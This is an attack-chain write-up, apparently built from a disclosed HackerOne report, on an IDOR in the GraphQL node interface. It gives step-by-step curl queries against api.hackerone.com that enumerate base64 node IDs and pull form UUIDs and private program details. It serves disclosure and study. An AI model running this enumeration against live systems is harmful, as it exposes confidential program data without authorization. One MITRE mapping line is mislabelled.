

# IDOR in HackerOne GraphQL Node Interface to Enumerate EmbeddedSubmissionForm UUIDs and Expose Private Program Details

Multi-stage attack chain demonstrating exploitation of an Insecure Direct Object Reference (IDOR) vulnerability in HackerOne's GraphQL node interface. The attack leverages predictable auto-incremental primary keys encoded in base64 node IDs to enumerate EmbeddedSubmissionForm objects, extract their UUIDs, and subsequently access sensitive private program details such as team handles, policies, terms, and bounty information without authentication. This grants unauthenticated attackers access equivalent to an invited reporter, potentially exposing confidential data.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl or GraphQL playground)

### Target Environment

- HackerOne GraphQL endpoint (api.hackerone.com/graphql or similar)
- No specific ports required (HTTPS on 443)
- Public internet access to HackerOne

### Initial Access Requirements

- No credentials needed (unauthenticated)
- Knowledge of a valid base64-encoded node ID for an EmbeddedSubmissionForm (e.g., obtained from public reports or initial queries)
- No prior access; attack starts from external unauthenticated position

## Detailed Attack Procedures

### Step 1: Decode Known Node ID
procedure: [[procedures/Decode-HackerOne-GraphQL-Node-ID]]

**Objective**: Decode a base64-encoded GraphQL node ID to reveal the underlying auto-incremental primary key structure, enabling enumeration.

**Instructions**: Start with a known node ID such as `Z2lkOi8vaGFja2Vyb25lL0VtYmVkZGVkU3VibWlzc2lvbkZvcm0vOQ==`. Use a base64 decoder to extract the integer ID.

**Expected Output**: Decoded string like `gid://hackerone/EmbeddedSubmissionForm/9`, showing the predictable integer primary key (e.g., 9).

**Success Indicators**:
- Integer primary key extracted (e.g., 9)
- Confirms auto-incremental structure

### Step 2: Modify and Re-encode Node ID for Enumeration
procedure: [[procedures/Modify-and-Re-encode-Node-ID-for-Enumeration]]

**Objective**: Increment the decoded primary key to target other EmbeddedSubmissionForm objects and re-encode to create new node IDs for querying.

**Instructions**: Change the integer (e.g., from 9 to 10) in the decoded string `gid://hackerone/EmbeddedSubmissionForm/10`, then base64-encode it to generate a new node ID like `Z2lkOi8vaGFja2Vyb25lL0VtYmVkZGVkU3VibWlzc2lvbkZvcm0vMTA=`. Repeat for sequential values to enumerate.

**Expected Output**: New base64-encoded node ID ready for GraphQL queries.

**Success Indicators**:
- Valid re-encoded node ID generated
- Sequential IDs cover potential form objects

### Step 3: Query GraphQL Node to Retrieve UUID
procedure: [[procedures/Query-GraphQL-Node-to-Retrieve-UUID]]

**Objective**: Use the modified node ID in a GraphQL query to fetch the EmbeddedSubmissionForm object and extract its UUID without authentication.

**Instructions**: Send a POST request to the GraphQL endpoint with the query using [[commands/graphql-query-node-uuid]]:

```bash
curl -X POST https://api.hackerone.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "query { node(id: \"Z2lkOi8vaGFja2Vyb25lL0VtYmVkZGVkU3VibWlzc2lvbkZvcm0vOQ==\") { ... on EmbeddedSubmissionForm { uuid } } }"}'
```

**Expected Output**: JSON response with `data.node.uuid` containing the form's UUID (e.g., `{ "data": { "node": { "uuid": "████" } } }`).

**Success Indicators**:
- UUID retrieved successfully
- No authentication error

### Step 4: Use UUID to Query Private Program Details
procedure: [[procedures/Use-UUID-to-Query-Private-Program-Details]]

**Objective**: Append the extracted UUID to the GraphQL endpoint and query for associated team details, exposing sensitive private program information.

**Instructions**: Use the UUID in the query parameter and send a POST request with [[commands/graphql-query-program-details]]:

```bash
curl -X POST "https://api.hackerone.com/graphql?embedded_submission_form_uuid=█████████" \
  -H "Content-Type: application/json" \
  -d '{"query": "query { node(id: \"Z2lkOi8vaGFja2Vyb25lL0VtYmVkZGVkU3VibWlzc2lvbkZvcm0vOQ==\") { ... on EmbeddedSubmissionForm { id, uuid team { handle policy } } } }", "variables": {}}'
```

**Expected Output**: JSON with sensitive data like `{ "data": { "node": { "team": { "handle": "██████████", "policy": "The policy text." } } } }`.

**Success Indicators**:
- Private program details (handle, policy) retrieved
- Equivalent to invited reporter access

## Attack Chain Summary

### Key Achievements

1. Enumerated UUIDs of EmbeddedSubmissionForm objects via IDOR without authentication.
2. Bypassed intended randomness protections using predictable primary keys.
3. Accessed confidential program data including policies, terms, and bounty details.
4. Demonstrated high-impact information disclosure affecting program privacy.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Steal Web Session Cookie]] Data from Information Repositories

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Discovery]] Discovery
- [[Collection]] Collection

---
*Last updated: 2023-10-01T00:00:00Z*
